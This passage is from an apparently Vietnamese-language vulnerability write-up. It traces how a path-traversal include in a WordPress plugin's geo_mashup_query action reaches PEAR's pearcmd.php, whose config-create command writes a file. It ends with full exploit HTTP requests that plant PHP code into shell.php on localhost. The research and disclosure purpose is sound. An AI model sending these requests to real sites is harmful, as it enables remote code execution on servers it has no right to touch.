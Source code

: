 Đây là hàm quyết định việc ghi config file với `serialize($data)` để chuyển cấu hình thành chuỗi có thể lưu trữ.

Trở lại file `pearcmd.php`, các param được tạo và gán vào `$params`.

```php
list($tmpopt, $params) = $tmp;
```

![params](params.png "Giá trị $params trong debugger")

Cuối cùng, `$cmd` được thực thi bằng `$cmd->run()`

```php
$ok = $cmd->run($command, $opts, $params);
```

## Flow
1. Gửi GET request:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php
```

2. Web `include` `/usr/local/lib/php/pearcmd.php`.

3. PHP (register_argc_argv=On) build `$_SERVER['argv']` từ query → `['action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&','config-create','/test_root_path','test_filename.php']`.

4. `Console_Getopt::readPHPArgv()` trả `$argv`; `Console_Getopt::getopt2()` parse ra `$command='config-create'` và `list($tmpopt, $params)` trả về `$params=['/test_root_path','test_filename.php']`.

5. `doConfigCreate()` chạy với `$params` do attacker kiểm soát → `touch()`/`realpath()` và `writeConfigFile()` tạo/ghi file.

> [!INFO]
> File cấu hình được tạo có chứa giá trị `root path`. Nếu giá trị này bị ghi dưới dạng một thẻ PHP hợp lệ (`<?php ... ?>`) và `file` có thể được truy cập bởi client, webserver sẽ xử lý nội dung PHP trong file đó và đoạn mã sẽ được thực thi dẫn tới **RCE**

## Exploit

Tận dụng [CVE-2025-48293](https://w41bu1.github.io/2025-10-13-cve-2025-48293/) đã phân tích để khai thác mở rộng bằng `pearcmd.php`

Gửi request chứa LFI payload trỏ đến `pearcmd.php`

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo();?>+/var/www/html/shell.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```
